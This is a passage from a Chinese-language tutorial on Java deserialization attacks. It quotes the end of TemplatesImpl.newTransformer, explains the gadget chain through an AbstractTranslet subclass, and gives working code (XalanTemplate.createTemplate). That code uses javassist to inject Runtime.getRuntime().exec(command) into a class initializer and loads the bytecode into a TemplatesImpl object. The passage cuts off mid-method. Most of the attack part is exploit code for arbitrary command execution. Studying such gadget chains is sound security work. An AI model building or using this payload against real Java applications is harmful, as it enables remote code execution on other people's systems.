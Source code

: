   ```java
        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);

        if (_uriResolver != null) {
            transformer.setURIResolver(_uriResolver);
        }

        if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
            transformer.setSecureProcessing(true);
        }
        return transformer;
    }
  }
  ```

  我们可以看到 TemplatesImpl 的 newTransformer 会从\_bytecodes 中将实例化一个类的对象，而该对象的类需要是 AbstractTranslet 的子类。因此我们可以得出这么一个利用的调用链条。

  1. 构建一个 AbstractTranslet 的子类，并在构造函数中写入我们的恶意方法
  2. 需要找到媒介来触发 newTransformer

  构造恶意代码如下

  ```java
    /**
    * 该类是用来创建一个带有 恶意代码类字节码 的类
    * 如果你可以先用其他的Java文件写好一个恶意代码,编译成.class后加载再进行处理就可以进行更多功能了
  * */
  public class XalanTemplate {

    //可以定义恶意代码的类
    public static class PlayLoad implements Serializable{ }

    //利用指定的命令来构建恶意对象
    public Object createTemplate(String command) throws Exception {
        //利用javassist 来获取和操作字节码
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(PlayLoad.class));
        CtClass clazz = pool.get(PlayLoad.class.getName());

        //利用javassist来给目标类动态构建一个指定的构造函数
        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +"\");";
        clazz.makeClassInitializer().insertAfter(cmd);

        //设置该类的超类为 AbstractTranslet
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superC);

        //获取字节码
        byte[] playLoadByteCode=clazz.toBytecode();

        //设置构建 template
        Object template=TemplatesImpl.class.newInstance();
        setFieldValue(template, "_bytecodes", new byte[][] {playLoadByteCode});
        setFieldValue(template, "_name", "lujianbo");
        setFieldValue(template, "_tfactory", TransformerFactoryImpl.class.newInstance());

        return template;
    }

    public Field getField(final Class<?> clazz, final String fieldName) throws Exception {
        Field field = clazz.getDeclaredField(fieldName);
        if (field != null)
  ```